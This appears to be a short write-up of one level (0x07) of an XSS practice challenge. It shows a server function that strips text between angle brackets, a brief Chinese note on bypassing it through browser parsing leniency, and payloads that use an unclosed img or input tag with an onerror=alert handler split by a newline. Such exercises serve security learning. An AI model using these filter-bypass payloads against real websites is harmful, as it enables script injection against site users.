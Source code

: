 
# 0x07

## server code:

```
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```

## 分析:

```
过滤了<>包含的所有内容并替换成空,利用浏览器兼容性绕过
```

## input code:

```
1. 
<img src='' onerror=alert`1`
     //这里有个换行
```

## html:

```
1. <input value=1 type='image' src='' onerror
=alert(1) type="text">

```

![007](/img/xss/haozi/007.png)
